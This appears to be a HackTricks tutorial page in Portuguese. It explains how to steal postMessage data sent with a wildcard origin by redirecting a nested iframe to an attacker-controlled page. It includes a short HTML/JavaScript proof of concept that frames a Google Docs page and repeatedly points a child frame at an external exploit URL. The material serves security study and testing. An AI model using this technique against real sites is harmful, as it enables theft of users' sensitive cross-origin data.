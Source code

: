 # Roubar postmessage modificando a localização do iframe

{{#include ../../banners/hacktricks-training.md}}

## Mudando as localizações de iframes filhos

De acordo com [**este artigo**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), se você puder iframe uma página da web sem o X-Frame-Header que contém outro iframe, você pode **mudar a localização desse iframe filho**.

Por exemplo, se abc.com tiver efg.com como iframe e abc.com não tiver o cabeçalho X-Frame, eu poderia mudar o efg.com para evil.com de origem cruzada usando **`frames.location`**.

Isso é especialmente útil em **postMessages** porque se uma página estiver enviando dados sensíveis usando um **wildcard** como `windowRef.postmessage("","*")`, é possível **mudar a localização do iframe relacionado (filho ou pai) para um local controlado por atacantes** e roubar esses dados.
```html
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
//pseudo code
setTimeout(function () {
exp()
}, 6000)

function exp() {
//needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
setInterval(function () {
window.frames[0].frame[0][2].location =
"https://geekycat.in/exploit.html"
}, 100)
}
</script>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
